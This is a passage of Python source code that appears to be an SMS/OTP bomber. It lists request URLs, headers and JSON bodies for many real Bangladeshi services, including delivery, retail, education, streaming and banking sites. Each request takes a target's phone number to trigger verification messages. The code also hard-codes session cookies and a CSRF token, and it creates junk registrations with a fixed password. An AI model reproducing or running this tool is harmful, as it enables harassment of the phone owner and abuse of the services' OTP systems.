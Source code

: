 data5= '{"name":"961096106","phoneNumber":"'+number+'","service":"redx"}'
url6 = "https://api.bongo-solutions.com/auth/api/login/send-otp"
headers6 = CaseInsensitiveDict()
headers6["Content-Type"] = "application/json"
data6 = '{"operator":"all","msisdn":"880'+number+'"}'
url7 ="https://www.rokomari.com/resend-verification-code?email_phone=880"+number


url8 = "https://www.pizzahutbd.com/customer/sign-in/mobile"

headers8 = CaseInsensitiveDict()
headers8["Cookie"] = "XSRF-TOKEN=eyJpdiI6InNuQmtkMnFVT2xzT0I3eWhqbW5neHc9PSIsInZhbHVlIjoib3NEdnYrZUpuQWpoZ0dEcnJNT2VxVHd2M21acHFxWURzWXdYdlQrZVN2YTZlTGxWUktjUlllZEpxS0xpdG9odSIsIm1hYyI6IjM3N2ZmMjkyM2I4NmE2N2E5MjBmMzAzNThmMGQ0MTU0M2M0MmFlYTZiODkzYTc0MGY0M2JhZGNiNGMyMmNkNmYifQ%3D%3D; laravel_session=eyJpdiI6Ik13OW9FMzkraEprMlRVY0d1Z0dcL2hRPT0iLCJ2YWx1ZSI6InBzcVVOdnpVOEFoMllrdVJMeDhJdndvSGtOYWlJd3lzbzdFSVY4OXNOZWpDdFIrWVU0UzNwcWVEcHlcL1NscXZMIiwibWFjIjoiMWZiMDBkNDc3ZDJjNDYzYTU1NjAxOWRmZDBmZTFlNjVhNDlkOTljMjM5YmYxZmUxY2NhMDE5YjBmZjdkODU1MiJ9; _fbp=fb.1.95760618126.170097696; _ga_Y46ECXC3WS=GS1.1.957606120.1.1.957606120.0; _ga=GA1.2.157655917.957606120; _gid=GA1.2.1912717920.957606120; _gat_gtag_UA_80641075_1=1"
headers8["Content-Type"] = "application/x-www-form-urlencoded"

data8 = "_token=t7I6C5hDF7XgnfD5rNkeEloIbGlS71lpa6tHZMPh&phone_number=0"+number


url9 = "https://admission.ndub.edu.bd/api/users/register-step-1/"

headers9 = CaseInsensitiveDict()
headers9["Content-Type"] = "application/json"

data9 = '{"name":"asad","email":"'+pwd+'@gmail.com","phone":"0'+number+'","password":"1q2w3e4r","confirmPassword":"1q2w3e4r"}'
url10 = "https://developer.quizgiri.xyz/api/v2.0/send-otp"
headers10 = CaseInsensitiveDict()
headers10["Content-Type"] = "application/json"
data10 = '{"phone":"0'+number+'","country_code":"+880","fcm_token":null}'
url11 = "https://api.shikho.com/auth/v2/send/sms"

headers11 = CaseInsensitiveDict()
headers11["Content-Type"] = "application/json"

data11 = '{"phone":"0'+number+'","email":null,"auth_type":"login"}'
url12 = 'https://prod-api.viewlift.com/identity/signup?site=hoichoitv'
data12 = {'requestType':'send',  'phoneNumber':'+880'+number,  'emailConsent':'true',  'whatsappConsent':'true'}

url13 = "https://ezybank.dhakabank.com.bd/VerifIDExt2/api/CustOnBoarding/VerifyMobileNumber"

headers13 = CaseInsensitiveDict()
headers13["Content-Type"] = "application/json"

data13 = """
{
  "AccessToken": "",
  "TrackingNo": "",
  "mobileNo": "0"""""+number+"""",
  "otpSms": "",
  "product_id": "201",
  "requestChannel": "MOB",
  "trackingStatus": 5
}
"""
